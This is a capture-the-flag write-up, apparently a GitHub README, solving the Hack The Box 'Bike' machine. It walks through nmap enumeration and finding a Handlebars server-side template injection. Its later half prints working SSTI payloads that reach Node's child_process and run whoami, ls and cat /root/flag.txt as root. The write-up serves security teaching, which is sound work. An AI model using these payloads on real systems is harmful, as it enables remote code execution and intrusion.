



# Basics of penetration testing

***In our journy to learn penetration testing we takes a machines in HTB to can explain the basics of penetration***


## Bike Write-up

- After connecting with vpn you will spawn the machine and you will have the ip address for this machine .

- As we explained in earlier machines you must know how to download vpn and connect with HTB server and ping for IP_address .
  
### The idea of this machine is : see the following

- You should know what is

  - `node.js` 
  - `express server`
  - `Template Engine`
  - `SSTI` vulnerability
  - `SSTI` payloads
  - `Burb suite`

- If you know what is node.js and how it works and what it have like { `handlebars` , `process` , `mainModule` , `require` } , all these things will make it easy to understand the machine very easily
- don't keep going in the machine until you learn those things.

### Enumeration :-

***And this is the first step you will begin with every time you performing an attack***

- we will begin with `nmap` tool to check what is the open ports in the target machine .

- we will use this command `sudo nmap -sC -sV -A {IP_address}` , in the next image you can study what this command do.
- 

- In the next image you will see the output of nmap tool :-

  

- As you can see in the nmap report we find `two open ports` .
  - port: **`22/tcp`**
    - state: `open`  
    - service: `ssh`  
    - version: `OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)`

  - port: **`80/tcp`**
    - state: `open`  
    - service: `http` 
    - versio: `node.js` 
- Stop here and think like a real hacker.
- Here you should ask yourself about the output of the `nmap` .
- The second port `80/tcp` should got your attention , and you should notice that we are gonna deal with website.
- And this is constant **when you see `port 80` this mean you are going to deal with website**.
  
- So , now we should go to our browser and type the {terget_IP:portnumber}.


- As you can see in the previous image that we entered {IP:port number} , then search and you will got the website like the following.


- Now we will start to discover every single point in the website .

- when you check what is the website do , you will see that there is input field which mean we can inject any malicious code inside it let's so how.

 

- As you can see in the previous image that , when you type any e-mail inside the input field and click submit you got message like this `{we will contact you at : (the email you just typed)}` .
- which mean that , when you type any e-mail in this field , the website send this e-mail to the server and then get back with the response .
- The idea now is : `If we successfully added the malicious code inside this filed this mean that we will have a successfull attack`
- Put this idea in your mind and keep going.
- We will initialize a wappalyzer tool , and this is chrome extension you should downloaded in earlyer phases :-



- Again think as a real hacker and ask yourself **what should I know from this output?**.
- You should search about all things you got in the wappalyzer output and if this is the first time to see something go and google it to know every single information about it .
- You should know what is :
  - Express web frame work.
  - express webserver.
  - node.js programming languages.

- If you reahced this point then you should searched about the things I mentioned in the previous point.

- when you search you will find that `express` and `node.js` use software called `Template Engine`.

- **What is a Template Engine?**
  - Template Engines are used to display dynamically generated content on a web page.
  - They replace the variables inside a template file with actual values and display these values to the client (i.e. a user opening a page through their browser).
  - For instance, if a developer needs to create a user profile page, which will contain Usernames, Emails,
Birthdays and various other content, that is very hard if not impossible to achieve for multiple different
users with a static HTML page. 
  - The template engine would be used here, along a static "template" that
contains the basic structure of the profile page, which would then manually fill in the user information and
display it to the user.
  - Template Engines, like all software, are prone to vulnerabilities.
  - The vulnerability that we will be focusing on
today is called `Server Side Template Injection (SSTI)`.

- `What is the server-side template injection?`
  - Is when a threat actor exploits a template's native syntax and injects malicious payloads into the template and the reason for this injection is making a server execute some commands.
  - So , let's find how to perform this attack.

### Identification

- Here is the last step before the exploitation phase.
- we will check if the `SSTI` vulnerability already exist.
- There is already existing payloads to check about this vulnerability you can back to this URL" https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection ":- this is `HackTrics` website .
- As you can see in this webiste , the following payload will determine if the website have th `SSTI` vulnerability or not.


- We should go to the website and input any of this payload and check the response of the website.


- After submitting the payload you should got the error message like the following .



- As a pen-tester getting an error is not always a bad thing , In this example when you check the error you will see that we have smoe useful information.
- In the first line you will see that the server run in `root` directory and the `handlebars` templete engine is used , but getting error because the system expected another input.
- Now we will getout from this phase by three information.

  - The `SSTI` vulnerability already exist.
  - The server is running in `root directory` .
  - The `handlebars` temblete engine is beinge used and wait some specific inputs and we need to find what is that.

### Exploitation

- Let's use the three information we have , we will need the third one `handlebars is being used`, so we will grab the `handlebars` payload  from `HackTricks` website.
  


- In this code we will focus in the marked line `this.push("return require('child_process').exec('whoami');"):`, this line used for  pushes the code snippet to execute the whoami command onto codelist.

- So we will inject this code inside the website to see what will the output gonna be.

- But first we need to encode this code in the form that the website will understand and we will use `Burb suite` in this purpose.

    

- We will take the output and put it in the E-mail field .

- we will do this in the `reapeter` section in the `Burb suite` .


    

- As you can see in the response section the out-put is `require is not defined` , when you look at the payload you will notic that there is one line have the `require` variable :-

  - `{{this.push "return require('child_process').exec('whoami');"}}`

    - this error mean that the `require` object already exist but we should use it in the different way .
    - when we look in a `node.js` DOCs we will find that there is a `process` object avilable .
  
```js
{{#with "s" as |string|}}
      {{#with "e"}}
        {{#with split as |conslist|}}
         {{this.pop}}
         {{this.push (lookup string.sub "constructor")}}
         {{this.pop}}
        {{#with string.split as |codelist|}}
         {{this.pop}}
          {{this.push "return process;"}}
         {{this.pop}}
          {{#each conslist}}
         {{#with (string.sub.apply 0 codelist)}}
        {{this}}
      {{/with}}
      {{/each}}
     {{/with}}
    {{/with}}
   {{/with}}
{{/with}}
```

- We will take this code and encode it in url type and add it in `E-mail input` then see what will get in the response.
  
  

  - As you can see we got this message , this mean that we successfully determine the right object.

- Now after doing a quick search we will find that `process`it has a `mainModule` property that has been deprecated since version 14.0.0 of Node.js.
- So we will try to add it .
- I Know you maybe losted here , but all we do is try to expect what is the existing path to the`requir object`.
- We will edit the code and it will as following.

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
     {{#with string.split as |codelist|}}
      {{this.pop}}
      {{this.push "return process.mainModule;"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
          {{this}}
        {{/with}}
       {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- Don't forget to encode this code in `URL` .
- You will got the out-put as following .


- The response did not contain an error and we can see the [object process] has been included.
- This means that the process object is indeed available.
  
- Now lets attempt to call `require` and load a module.
- We can load the `child_process` module as it is available on default Node.js installations and can be used to execute system commands.
- We will modify the payload as following.

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
          {{this}}
         {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- Now encode this code and inject it in the `E-mail` bu `burb suite` .

- You will got the output like this:
  


- The require object has been called successfully and the `child_process` module loaded.
- Let's now attempt to run system commands.

```js
{{#with "s" as |string|}}
 {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
      {{#with string.split as |codelist|}}
      {{this.pop}}
       {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
         {{this}}
       {{/with}}
     {{/each}}
   {{/with}}
  {{/with}}
{{/with}}
{{/with}}
```

- Again go to decoder in the `Burb suite` and encode this in the `URL` form, and inject it in `E-mail` field, you will got out put like follwoing.


- As you can see in the previous image that we got the response to the command `whoami` and the result is `root`

- So now feel free to change the command `whoami` with any other command.

- let's list the folders and files inside the root directory with `ls` command.

```js
{{#with "s" as |string|}}
 {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
      {{#with string.split as |codelist|}}
      {{this.pop}}
       {{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
         {{this}}
       {{/with}}
     {{/each}}
   {{/with}}
  {{/with}}
{{/with}}
{{/with}}
```


- As you can see we find the flag , let's read the flag by other command.

```js
{{#with "s" as |string|}}
 {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
      {{#with string.split as |codelist|}}
      {{this.pop}}
       {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
         {{this}}
       {{/with}}
     {{/each}}
   {{/with}}
  {{/with}}
{{/with}}
{{/with}}
```

- The response to this code should be the flag .


- We successfully got the flag!
- Congratulations , Assem_Ayman
